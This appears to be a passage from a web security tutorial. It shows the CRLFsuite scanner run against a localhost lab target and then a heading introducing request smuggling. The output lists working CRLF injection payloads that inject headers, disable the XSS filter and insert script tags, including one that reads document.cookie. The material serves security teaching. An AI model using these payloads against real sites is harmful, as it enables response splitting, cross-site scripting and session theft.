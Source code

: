 ```shell
crlfsuite -t http://127.0.0.1:8000/?target=asd
            ___
          ___H___
 _____ _____[%]_____         _ _
|     | __  [\]   __|___ _ _|_| |_ ___
|   --|    -[#]   __|_ -| | | |  _| -_|
|_____|__|__[;]__|  |___|___|_|_| |___|
             V                        v2.5.2
                (By Nefcore Security)

:: TARGET     : http://127.0.0.1:8000/?target=asd
:: THREADS    : 10
:: METHOD     : GET
:: Delay      : 0
:: TIMEOUT    : 15
:: VERIFY     : False
:: Verbosity  : 1

[INF] CRLFsuite v2.5.2 (CRLF Injection Scanner)
[WRN] Use with caution. You are responsible for your actions
[WRN] Developers assume no liability and are not responsible for any misuse or damage.
[INF] Generating random headers
[INF] Intializing Heuristic scanner...
[INF] Heuristic scan completed.
[INF] Intializing WAF detector at 26-01-2023 14:53...
[INF] WAF status: offline
[INF] WAF detection completed.
[INF] Intializing Payload Generator...
[INF] Heuristic scanner found no injectable URL(s).
[INF] Creating resumable_data.crlfsuite.
[INF] Intializing CRLF Injection scanner at 26-01-2023 14:53...

[VLN] http://127.0.0.1:8000/?target=%3f%0D%0ALocation://x:1%0D%0AContent-Type:text/html%0D%0AX-XSS-Protection%3a0%0D%0A%0D%0A%3Cscript%3Ealert(document.domain)%3C/script%3E
[VLN] http://127.0.0.1:8000/?target=%22%3E%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E%3C%22
[VLN] http://127.0.0.1:8000/?target=%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
[VLN] http://127.0.0.1:8000/?target=%0AContent-Type:html%0A%0A%3Cscript%3Ealert(%22XSS%22)%3C/script%3E
[VLN] http://127.0.0.1:8000/?target=%0d%0a%0d%0a%3Cscript%3Ealert(%22XSS%22)%3C%2Fscript%3E
[VLN] http://127.0.0.1:8000/?target=%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../tr
[VLN] http://127.0.0.1:8000/?target=%3f%0d%0aLocation:%0d%0aContent-Type:text/html%0d%0aX-XSS-Protection%3a0%0d%0a%0d%0a%3Cscript%3Ealert%28document.domain%29%3C/script%3E

```


# Introduction to Request Smuggling

* * *
